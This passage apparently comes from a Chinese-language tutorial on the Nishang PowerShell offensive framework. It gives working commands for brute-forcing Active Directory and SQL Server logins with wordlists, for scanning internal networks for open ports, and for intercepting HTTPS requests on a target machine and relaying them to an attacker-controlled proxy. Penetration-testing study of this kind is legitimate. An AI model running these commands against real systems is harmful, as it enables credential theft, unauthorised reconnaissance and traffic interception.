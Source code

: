```powershell
PS > Invoke-BruteForce -ComputerName targetdomain.com -UserList C:\test\users.txt -PasswordList C:\test\wordlist.txt -Service ActiveDirectory -StopOnSuccess -Verbose //爆破域控制器
PS > Invoke-BruteForce -ComputerName SQLServ01 -UserList C:\test\users.txt -PasswordList C:\test\wordlist.txt -Service SQL -Verbose  //爆破SQL Server
PS > cat C:\test\servers.txt | Invoke-BruteForce -UserList C:\test\users.txt -PasswordList C:\test\wordlist.txt -Service SQL -Verbose  //爆破server.txt中所有servers的SQL Server
```
主要的参数：
* ComputerName 用于指定对应服务的计算机名
* UserList 用户名字典
* PasswordList 密码字典
* Service 服务类型（注意默认为：SQL）
* StopOnSuccess 成功找到一个后就停止执行
#### Invoke-PortScan
利用这个脚本我们可以在目标机器上对内网进行端口扫描
执行方式：

```powershell
PS >Invoke-PortScan -StartAddress 192.168.0.1 -EndAddress 192.168.10.254 -ResolveHost -ScanPort -Port 80
```
主要的参数：
* StartAddress 扫描范围开始的地址
* EndAddress   扫描范围结束的地址
* ScanPort 进行端口扫描
* Port 指定扫描端口（默认扫描端口：21,22,23,53,69,71,80,98,110,139,111,
389,443,445,1080,1433,2001,2049,3001,3128,5222,6667,6868,7777,7878,8080,1521,3306,3389,5801,5900,5555,5901）
* TimeOut  设置超时时间


### 7.中间人
#### Invoke-Interceptor
这个脚本可以通过建立一个代理服务器的方式来拦截HTTPS的请求，并将这些请求记录下来
执行方式：

```powershell
PS >Invoke-Interceptor -ProxyServer 192.168.230.21 -ProxyPort 3128 //这条命令将默认在8081端口监听并把请求发送给上游代理的3128端口
```
可以通过ListenPort来修改我们目标机器上的监听端口（默认8081端口）
例如
我们在目标机器上执行：
![interceptor](https://raw.githubusercontent.com/myoss114/oss/master/uPic/framework/interceptor.jpg)
然后这里本机我用NC来监听对应端口：
![interceptor](https://raw.githubusercontent.com/myoss114/oss/master/uPic/framework/interceptor2.jpg)
接收到了来自目标机的请求数据
并且这个脚本会在目标机的TEMP目录下生成interceptor.log的文件来记录请求数据
![interceptorlog](https://raw.githubusercontent.com/myoss114/oss/master/uPic/framework/interceptorlog.jpg)
